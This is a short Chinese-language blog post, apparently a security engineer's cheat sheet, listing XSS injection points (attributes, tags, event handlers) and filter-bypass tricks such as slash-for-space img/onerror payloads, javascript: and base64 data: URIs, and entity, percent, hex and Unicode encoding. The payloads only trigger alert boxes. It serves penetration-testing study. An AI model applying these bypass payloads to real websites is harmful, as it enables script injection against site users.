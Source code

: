 ```yaml
---
layout: post
title: XSS Tricks And Others
categories: 安全工程师 
kerywords: XSS Web安全
tags: XSS
---
```


# 输入输出在哪里

* 在属性里
>
```
formaction action href xlink:href autofocus src content data
```

* 在标签里
> 
```
<script> <a> <p> <img> <body> <button> <var> <div> <iframe> <object> <input> <select> <textarea> <keygen> <frameset> <embed> <svg> <math> <video> <audio>　
```
>>　没有标签制造标签也要上

* 在事件上
> 
```
onload onunload onchange onsubmit onreset onselect onblur onfocus onabort onkeydown onkeypress onkeyup onclick ondbclick onmouseover onmousemove onmouseout onmouseup onforminput onformchange ondrag ondrop onshow onwheel
```


# XSS技巧

* 标签和属性之间不一定只出现空格
> `<img/src=x onerror=alert(1)>` 有些情况下我们可以使用"/"来代替空格


* href当中使用javascript或者data URI 
>
```
<a href=javascript:alert(2)>M 
<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>

```

* 编码
> * 对百分号二次编码
> * Base64 编码绕过
> * HTTP 实体编码绕过
>> `<a href=javascript&colon;confirm(2)>M`
> * \x十六进制，八进制,hex,demical
> * Unicode码
> * urlencode
